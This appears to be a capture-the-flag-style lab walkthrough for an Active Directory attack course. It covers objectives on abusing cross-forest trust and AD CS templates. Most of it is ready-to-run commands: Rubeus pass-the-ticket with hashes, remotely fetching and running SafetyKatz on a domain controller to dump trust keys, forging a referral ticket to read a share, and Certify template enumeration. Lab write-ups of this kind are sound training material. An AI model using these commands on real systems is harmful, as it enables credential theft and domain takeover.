 # Objective - 20
#### Flag - Service for which a TGS is requested from eurocorp-dc	
**Extract the trust key**
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- Run the below commands from the process running as DA to copy Loader.exe on dcorp-dc and use it to extract credentials:
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y

winrs -r:dcorp-dc cmd

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```
**Forge a referral ticket**
- Let's Forge a referral ticket. Note that we are not injecting any SID History here as it would be filtered out. Run the below command:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:fec83e5de6750fded29002434e626a53 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap
```
- Copy the base64 encoded ticket from above and use it in the following command:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgs /service:cifs/eurocorp-dc.eurocorp.LOCAL /dc:eurocorp-dc.eurocorp.LOCAL /ptt /ticket:doIGPjCCBjqgAwIBBaED...
```
- Once the ticket is injected, we can access explicitly shared resources on eurocorp-dc.
```
dir \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```
#### Flag - Contents of secret.txt on eurocorp-dc	
```
type \\eurocorp-dc.eurocorp.local\SharedwithDCorp\secret.txt
```


---


# Objective - 21
#### Flag - Name of the AD CS template that has ENROLLEE_SUPPLIES_SUBJECT
```
C:\AD\Tools\Certify.exe cas

C:\AD\Tools\Certify.exe find

C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```
- The HTTPSCertificates template grants enrollment rights to RDPUsers group and allows requestor to supply Subject Name. Recall that studentx is a member of RDPUsers group. This means that we can request certificate for any user as studentx.
- Let's request a certificate for Domain Admin - Administrator:
```
```
